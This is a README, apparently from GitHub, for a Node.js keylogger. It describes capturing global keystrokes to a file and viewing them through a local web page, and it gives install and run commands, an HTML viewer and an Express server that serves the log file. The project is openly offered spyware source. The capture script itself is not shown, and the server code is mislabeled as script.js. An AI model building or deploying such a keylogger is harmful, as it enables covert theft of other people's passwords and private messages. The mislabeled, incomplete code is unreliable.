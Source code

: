 # Keylogger software with Web Interface

This project is a keylogger built using Node.js that logs keyboard events and provides a simple web interface to view the logs in real-time.

## Features

- Captures global keyboard events.
- Logs keystrokes to a file.
- Provides a web interface to view the logs.

## Prerequisites

- Node.js (version 12 or higher)
- npm (Node package manager)

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/keylogger-web-interface.git
   cd keylogger-web-interface
# 2.Install the dependencies:
npm install node-global-key-listener

# Usage:
# 1. Start the Keylogger:
node keylogger.js

# 2. Start the Web Server:
node server.js

# 3.Access the Interface:
Open your web browser and navigate to "http://localhost:3000" to view the logged keys.

# File Structure
project-folder/
├── keylogger.js       # Captures and logs keystrokes
├── server.js          # Serves the web interface and logs
├── package.json       # Node.js project file
└── public/
    ├── index.html     # Web interface HTML
    └── script.js      # JavaScript for fetching and displaying logs
# index.html:
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Keylogger Interface</title>
  <style>
    body { font-family: Arial, sans-serif; }
    #log { white-space: pre; background: #f0f0f0; padding: 10px; border: 1px solid #ccc; }
  </style>
</head>
<body>
  <h1>Keylogger Interface</h1>
  <button onclick="fetchLogs()">Refresh Logs</button>
  <div id="log">Logs will appear here...</div>

  <script src="script.js"></script>
</body>
</html>

# script.js:
'use strict';
const express = require('express');
const fs = require('fs');
const path = require('path');
const app = express();
const port = 3000;
const logFile = 'keylogs.txt';

// Serve the static files
app.use(express.static(path.join(__dirname, 'public')));

// Endpoint to fetch the logs
app.get('/logs', (req, res) => {
  fs.readFile(logFile, 'utf8', (err, data) => {
    if (err) {
      res.status(500).send('Error reading log file');
    } else {
      res.send(data);
    }
  });
});

app.listen(port, () => {
  console.log(`Server running at http://localhost:${port}`);
});
